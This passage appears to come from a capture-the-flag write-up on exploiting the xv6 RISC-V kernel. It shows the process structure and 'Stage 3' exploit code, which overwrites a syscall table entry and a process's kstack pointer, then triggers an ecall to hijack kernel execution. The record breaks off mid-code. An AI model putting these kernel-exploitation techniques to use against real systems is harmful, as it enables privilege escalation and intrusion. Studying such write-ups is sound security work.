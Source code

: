 {{< code language="c" title="proc structure" id="8" expand="Show" collapse="Hide" isCollapsed="false" >}}
// Per-process state
struct proc {
  struct spinlock lock;
  
  // p->lock must be held when using these:
  enum procstate state;        // Process state
  void *chan;                  // If non-zero, sleeping on chan
  int killed;                  // If non-zero, have been killed
  int xstate;                  // Exit status to be returned to parent's wait
  int pid;                     // Process ID

  // wait_lock must be held when using this:
  struct proc *parent;         // Parent process

  // these are private to the process, so p->lock need not be held.
  uint64 kstack;               // Virtual address of kernel stack
  uint64 sz;                   // Size of process memory (bytes)
  pagetable_t pagetable;       // User page table
  struct trapframe *trapframe; // data page for trampoline.S
  struct context context;      // swtch() here to run process
  struct file *ofile[NOFILE];  // Open files
  struct inode *cwd;           // Current directory
  char name[16];               // Process name (debugging)
};

[...]

struct proc proc[NPROC];

[...]
{{< /code >}}

This structure is used to store and restore the state of the registers before and after the context switch from user mode to kernel mode and vice versa. A good target to overwrite is the `kstack` pointer, as it will be loaded as the stack base on the next context switch to the kernel mode. This means that with the right gadgets, the execution can be controlled. Taking advantage of the fact that `a0` was already set, I used the following code to overwrite its pointed memory:

{{< code language="c" title="Stage 3" id="9" expand="Show" collapse="Hide" isCollapsed="false" >}}
void process1()
{
	[...]
	printf("[*] Stage 3: Getting control of the kstack\n");

    uint64 *victim_syscall = (uint64 *)syscall_table + 1;
    *victim_syscall = 0x0000000080000d6e; // memcpy (memmove+90)

    uint64 *proc = (void *)t2[aw_page] + 0xa00;
    *(proc + 8) = 0x80007350; // new value for kstack of proc

    printf("[+] kstack pointer of proc %d overwrote with %p\n", getpid(), *(proc + 8));

    asm volatile("          \
        li a1, 0x80008a00;  \
        li a2, 72;          \
        li a7, 1;           \
        ecall;              \
    ");
    